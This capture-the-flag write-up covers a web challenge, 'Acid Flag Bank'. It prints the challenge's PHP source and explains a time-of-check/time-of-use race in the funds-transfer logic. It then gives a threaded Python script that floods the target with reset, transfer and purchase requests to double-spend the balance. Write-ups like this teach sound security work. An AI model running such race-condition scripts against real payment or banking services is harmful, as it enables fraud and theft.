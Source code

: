 ## Acid Flag Bank (Moderate)

At the time of writing this challenge had the second lowest solve count of all the web challenges despite being only rated moderate. There is good reason for this - the solution isn't really all that complicated but pretty unexpected for a web challenge. 

As with most of these challenges the site displays it's own source code.
```
 <?php
require_once('flag.php');

class ChallDB
{
    public function __construct($flag)
    {
        $this->pdo = new SQLite3('/tmp/users.db');
        $this->flag = $flag;
    }
 
    public function updateFunds($id, $funds)
    {
        $stmt = $this->pdo->prepare('update users set funds = :funds where id = :id');
        $stmt->bindValue(':id', $id, SQLITE3_INTEGER);
        $stmt->bindValue(':funds', $funds, SQLITE3_INTEGER);
        return $stmt->execute();
    }

    public function resetFunds()
    {
        $this->updateFunds(1, 247);
        $this->updateFunds(2, 0);
        return "Funds updated!";
    }

    public function getFunds($id)
    {
        $stmt = $this->pdo->prepare('select funds from users where id = :id');
        $stmt->bindValue(':id', $id, SQLITE3_INTEGER);
        $result = $stmt->execute();
        return $result->fetchArray(SQLITE3_ASSOC)['funds'];
    }

    public function validUser($id)
    {
        $stmt = $this->pdo->prepare('select count(*) as valid from users where id = :id');
        $stmt->bindValue(':id', $id, SQLITE3_INTEGER);
        $result = $stmt->execute();
        $row = $result->fetchArray(SQLITE3_ASSOC);
        return $row['valid'] == true;
    }

    public function dumpUsers()
    {
        $result = $this->pdo->query("select id, funds from users");
        echo "<pre>";
        echo "ID FUNDS\n";
        while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
            echo "{$row['id']}  {$row['funds']}\n";
        }
        echo "</pre>";
    }

    public function buyFlag($id)
    {
        if ($this->validUser($id) && $this->getFunds($id) > 247) {
            return $this->flag;
        } else {
            return "Insufficient funds!";
        }
    }

    public function clean($x)
    {
        return round((int)trim($x));
    }
}

$db = new challDB($flag);
if (isset($_GET['dump'])) {
    $db->dumpUsers();
} elseif (isset($_GET['reset'])) {
    echo $db->resetFunds();
} elseif (isset($_GET['flag'], $_GET['from'])) {
    $from = $db->clean($_GET['from']);
    echo $db->buyFlag($from);
} elseif (isset($_GET['to'],$_GET['from'],$_GET['amount'])) {
    $to = $db->clean($_GET['to']);
    $from = $db->clean($_GET['from']);
    $amount = $db->clean($_GET['amount']);
    if ($to !== $from && $amount > 0 && $amount <= 247 && $db->validUser($to) && $db->validUser($from) && $db->getFunds($from) >= $amount) {
        $db->updateFunds($from, $db->getFunds($from) - $amount);
        $db->updateFunds($to, $db->getFunds($to) + $amount);
        echo "Funds transferred!";
    } else {
        echo "Invalid transfer request!";
    }
} else {
    echo highlight_file(__FILE__, true);
}
```
The class `ChallDB` is pretty self explainatory it implements some kind of banking system with 2 accounts. One has a balance of 247 and one has a balance 0. We can transfer funds between the accounts and reset them back to the original state. We can also attempt to buy the flag. The problem is we need at least 248 to do so but the total value of all accounts is only 247.

So how to we get more funds? There aren't any obvious bugs here and code is using prepared statements so it's not an sql injection either.

```
if ($to !== $from && $amount > 0 && $amount <= 247 && $db->validUser($to) && $db->validUser($from) && $db->getFunds($from) >= $amount) {
    $db->updateFunds($from, $db->getFunds($from) - $amount);
    $db->updateFunds($to, $db->getFunds($to) + $amount);
}
```
The problem is this code here (in conjunction with the `resetFunds()` function). It opens a toctou race condition vulnerability where we can transfer the same funds multiple times. The `resetFunds()` methods allows us to easily many attempts at doing so.

```
import requests
import sys
import threading

headers = {'Content-Type': 'application/x-www-form-urlencoded'}
cookies = {}

def reset():
    r = requests.get(target + '/?reset=', headers=headers, cookies=cookies)

def transfer():
    r = requests.get(target + '/?to=2&from=1&amount=200',headers=headers, cookies=cookies)

def get_flag():
    r = requests.get(target + '/?flag=&from=2', headers=headers, cookies=cookies)
    if "247" in r.text:
        print(r.text)

if __name__ == '__main__':
    if len(sys.argv) != 2:
        print("Target url required!!")
        sys.exit(1)
    target = sys.argv[1]
    for i in range(10000):
        threading.Thread(target=reset).start()
        threading.Thread(target=transfer).start()
        threading.Thread(target=transfer).start()
        threading.Thread(target=get_flag).start()
        threading.Thread(target=transfer).start() 
```

I used 5 threads, 3 to attempt the transfer, 1 to do the reset and one to attempt to buy the flag. It's run in a loop until the buying of the flag succeeds. This normally takes only a few seconds and runs.